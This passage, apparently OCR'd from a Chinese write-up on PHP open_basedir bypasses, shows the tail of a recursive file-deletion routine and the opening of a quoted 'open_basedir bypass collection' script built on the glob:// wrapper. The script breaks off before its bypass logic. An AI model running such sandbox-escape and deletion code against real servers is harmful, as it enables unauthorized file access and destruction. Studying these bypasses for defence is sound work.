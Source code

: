 ```php
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

### 网上的一个脚本

原理是用glob://伪协议：

```php
<?php
/*
PHP open_basedir bypass collection
Works with >= PHP5
By /fd, @filedescriptor(https://twitter.com/filedescriptor)
 */
 
// Assistant functions
function getRelativePath($from, $to) {
	// some compatibility fixes for Windows paths
	$from = rtrim($from, '\/') . '/';
	$from = str_replace('\\', '/', $from);
	$to = str_replace('\\', '/', $to);
 
	$from = explode('/', $from);
	$to = explode('/', $to);
	$relPath = $to;
 
	foreach ($from as $depth => $dir) {
		// find first non-matching dir
		if ($dir === $to[$depth]) {
			// ignore this directory
			array_shift($relPath);
		} else {
			// get number of remaining dirs to $from
			$remaining = count($from) - $depth;
			if ($remaining > 1) {
				// add traversals up to first matching dir
				$padLength = (count($relPath) + $remaining - 1) * -1;
				$relPath = array_pad($relPath, $padLength, '..');
				break;
```